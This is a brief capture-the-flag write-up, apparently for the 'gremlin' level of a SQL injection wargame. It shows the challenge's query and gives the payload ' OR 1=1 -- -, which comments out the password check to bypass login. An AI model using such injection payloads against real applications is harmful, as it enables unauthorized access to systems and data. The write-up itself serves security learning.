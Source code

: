 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b61527a1-dd8e-479b-b0e7-5cb6d58a8823)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='' AND pw=''
```

In order to make the result of this query `True`, we can provide the following URI:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/5c172a9d-3333-45b6-bd48-edc0e2def822)
